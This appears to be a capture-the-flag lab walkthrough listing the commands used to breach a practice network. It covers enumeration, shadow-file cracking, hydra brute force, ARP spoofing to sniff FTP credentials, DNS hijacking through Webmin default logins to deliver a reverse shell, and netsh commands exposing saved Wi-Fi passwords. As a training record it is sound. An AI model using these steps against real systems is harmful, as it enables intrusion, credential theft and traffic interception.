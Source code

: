 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. hydra vnc syntax: hydra -s 5900 –P /usr/share/wordlists/rockyou.txt 192.168.0.6 vnc
11. ssh to admin with the found password fails
12. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
13. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
14. sudo dig axfr @192.168.2.3
15. curl http://192.168.2.3:10000
16. wget https://c4705d283d7e:10000 --no-check-certificate
17. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
18. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
19. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
20. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
21. we found username and password! ftp_yolo  CyberSec@12 
22. ftp ftp.yolo.co.il # and put the details of the user.
23. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

###################################################################										more nmap pentest techniqes:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 
#################################################################
															usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`
2. find process pid and name of service using it:			  sudo ss -lptn 'sport = :8001'
3. stop the service: sudo systemctl stop inetd.service


1. get access points list windwos: Netsh wlan show profile
2. get the access point password: Netsh wlan show profile name ="tp link"  key=clear

#########################################################################################################





